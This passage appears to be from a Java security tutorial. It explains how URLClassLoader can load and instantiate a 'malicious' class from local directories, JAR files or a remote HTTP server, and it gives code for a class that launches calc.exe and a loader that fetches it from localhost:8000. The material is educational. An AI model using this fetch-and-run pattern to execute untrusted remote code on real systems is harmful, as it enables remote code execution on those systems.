




## Using URLClassLoader to Load Bytecode

`URLClassLoader` is a subclass of `ClassLoader`, primarily used to load classes from one or more specified URLs. These URLs can point to local files or remote resources. It supports the `http`, `file`, and `JAR` protocols.

```shell
# Generate JAR package
$ javac -d bin CalcExp.java
$ jar cf calcExp.jar -C bin /.
```
{: .nolineno}

1. **Create a Malicious Class (Example: Launch Calculator)**

```java
import java.io.IOException;

public class CalcExp {
    static {
        try {
            Runtime.getRuntime().exec("calc.exe");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }
}
```
{: .nolineno}

2. **Compile `CalcExp.java` to Generate `CalcExp.class`**

3. **Write the Malicious Bytecode Loader Code**

```java
import java.net.URL;
import java.net.URLClassLoader;

public class CalcExpClassLoader {
    public static void main(String[] args) {
        try {
            // Create a URLClassLoader with a local directory
            // URLClassLoader urlClassLoader = new URLClassLoader(new URL[]{new URL("file:///C:\\Users\\xxx\\Desktop\\")});

            // Create a URLClassLoader with a remote resource
            // URLClassLoader urlClassLoader = new URLClassLoader(new URL[]{new URL("http://localhost:8000/")});

            // Create a URLClassLoader for a JAR file in the local filesystem
            // URLClassLoader urlClassLoader = new URLClassLoader(new URL[]{new URL("jar:file:///C:\\Users\\xxx\\Desktop\\calcExp.jar!/")});

            // Create a URLClassLoader for a JAR file from a remote resource
            URLClassLoader urlClassLoader = new URLClassLoader(new URL[]{new URL("jar:http://localhost:8000/calcExp.jar!/")});

            // Load the "CalcExp" class
            Class<?> calc = urlClassLoader.loadClass("CalcExp");

            // Instantiate the "CalcExp" class
            calc.newInstance();
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }
}
```
{: .nolineno}

The `URLClassLoader` creates a custom class loader that loads classes from specified resource paths. It supports local files, remote resources, and JAR files.

`URL("file:///...")` creates a URL that represents a file system path. 

`new URL[]{...}` defines an array of URLs, indicating that the class loader will search for class files in the specified directories.


1. **Local Directory**

​	Load classes from a local directory:

```java
URLClassLoader urlClassLoader = new URLClassLoader(new URL[]{new URL("file:///C:\\Users\\xxx\\Desktop\\")});
```
{: .nolineno}




2. **Remote Resource**

   Load classes from a remote server:

```java
URLClassLoader urlClassLoader = new URLClassLoader(new URL[]{new URL("http://localhost:8000/")});
```
{: .nolineno}




3. **JAR File (Local)**
   Load classes from a local JAR file:

```java
URLClassLoader urlClassLoader = new URLClassLoader(new URL[]{new URL("jar:file:///C:\\Users\\xxx\\Desktop\\calcExp.jar!/")});
```
{: .nolineno}




4. **JAR File (Remote)**
   Load classes from a remote JAR file:

```java
URLClassLoader urlClassLoader = new URLClassLoader(new URL[]{new URL("jar:http://localhost:8000/calcExp.jar!/")});
```
{: .nolineno}



